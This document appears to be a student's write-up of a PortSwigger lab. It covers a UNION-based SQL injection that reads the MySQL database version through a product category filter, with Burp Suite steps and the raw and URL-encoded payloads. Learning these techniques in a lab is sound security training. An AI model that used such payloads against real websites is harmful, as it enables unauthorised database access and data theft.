



# SQL injection attack, querying the database type and version on MySQL and Microsoft

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#mysql_database
___
To get MySQL database version
```sql
SELECT @@version
' UNION SELECT @@version --
```

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=pets` => send to repeater



step 2

`' UNION SELECT @@version,NULL#` => URL Encoded (`'+UNION+SELECT+%40%40version,NULL%23`)
`/filter?category=Pets'+UNION+SELECT+%40%40version,NULL%23`




step 3

To solve the lab
add `'+UNION+SELECT+%40%40version,NULL%23` at the end of URL

